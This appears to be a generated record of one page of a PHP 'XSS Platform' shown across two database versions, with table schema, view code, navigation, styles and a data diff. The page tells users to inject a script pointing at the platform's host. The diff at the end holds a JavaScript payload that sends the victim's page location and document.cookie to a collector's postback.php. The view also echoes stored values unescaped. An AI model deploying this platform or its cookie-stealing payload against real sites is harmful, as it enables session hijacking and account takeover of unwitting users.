
Page /project/viewCode.php?id=5WDCa1 (signed in) on the earlier database version.

Same page on the later database version.
### tables this page shows
CREATE TABLE `project` (
  `guid` varchar(255) NOT NULL,
  `user_guid` varchar(255) NOT NULL,
  `project_name` varchar(255) NOT NULL,
  `timestamp` timestamp NOT NULL DEFAULT CURRENT_TIMESTAMP,
  `payload` text NOT NULL
);

### config/config.inc (called while the page is built, shortened)
<?php
  $xss_host="//127.0.0.1";
?>

### project/viewCode.php (the view, shortened to what this page needs)
<?php
  include("../utils/mysqli_utils.php");
  include("../config/config.inc");
  $stmt = $con->prepare("SELECT `guid`, `payload` FROM `project` WHERE `guid`=?");
  $stmt->bind_param("s", $_GET['id']);
  $stmt->execute();
  $result = $stmt->get_result();
?>
<!DOCTYPE html>
<html>
  <head>
    <link href="../assets/css/bootstrap.css" rel="stylesheet">
    <link href="../assets/css/bootstrap-responsive.css" rel="stylesheet">
  </head>
  <body>
    <div id="wrap">
      <div class="container">
        <?php include("../commons/nav.inc");?>
        <hr>
        <?php
          if (!empty($result) && mysqli_num_rows($result) != 0) {
            while ($row = $result->fetch_array()) {
        ?>
            <div>注入如下代码：</div>
            <pre class="well well-large"><?php echo $xss_host."/?id=".$row['guid']; ?></pre>
            <div>如果管理员配置了rewrite，也可以如下使用：</div>
            <pre class="well well-large"><?php echo $xss_host."/".$row['guid']; ?></pre>
            <div>Payload:</div>
            <pre class="well well-large"><?php echo $row['payload']; ?></pre>
        <?php
            }
          }
        ?>
      </div>
      <div id="push"></div>
    </div>
    <div id="footer">
      <div class="container">
        <p class="muted credit">注意：未获授权的安全测试将承担法律责任，请只在获得授权的情况下使用本工具。</p>
      </div>
    </div>
</body></html>

### commons/nav.inc (shortened to what this page needs)
<div class="masthead">
  <ul class="nav nav-pills pull-right">
    <li><a href="create.php">添加项目</a></li>
    <li class="dropdown">
      <a class="dropdown-toggle" data-toggle="dropdown" href="#"><?php echo $_SESSION['nickname'] ?><b class="caret"></b></a>
    </li>
  </ul>
  <h3 class="muted">XSS Platform</h3>
</div>

### project/viewCode.php (style rules this page uses)
html, body { height: 100%; }
#wrap { min-height: 100%; height: auto !important; height: 100%; margin: 0 auto -60px; }
#push, #footer { height: 60px; }
#footer { background-color: #f5f5f5; }
.container { width: auto; max-width: 680px; }
.container .credit { margin: 20px 0; }

Differences in the rows shown:
changed project "5WDCa1": payload "…} catch(err) { } x.src='{xsssite}postback.php?id={projectId}&location='+escape(document.location)+'toplocation='+escape(top.document.location)+'&cookie='+escape(document.cookie);" → "…} catch(err) { } x.src='{host}/postback.php?id={projectId}&location='+escape(document.location)+'toplocation='+escape(top.document.location)+'&cookie='+escape(document.cookie);"
